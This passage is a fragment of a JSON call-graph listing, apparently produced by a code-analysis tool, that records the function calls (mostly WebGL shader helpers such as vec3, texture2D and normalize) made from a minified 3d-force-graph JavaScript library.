{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "agxDefaultContrastApprox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLVolumeRefraction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bicubic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureLod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureLod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tg1"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureLod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureLod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureBicubic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bicubic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bicubic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVolumeTransmissionRay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "refract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyIorToRoughness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransmissionSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyIorToRoughness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureBicubic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "volumeAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLVolumeRefraction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVolumeTransmissionRay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransmissionSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "volumeAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVolumeTransmissionRay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransmissionSample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "volumeAttenuation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "packDepthToRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "packDepthToRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equirectUv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isPerspectiveMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isPerspectiveMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getEnvironmentBlendMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransfer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enableAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": 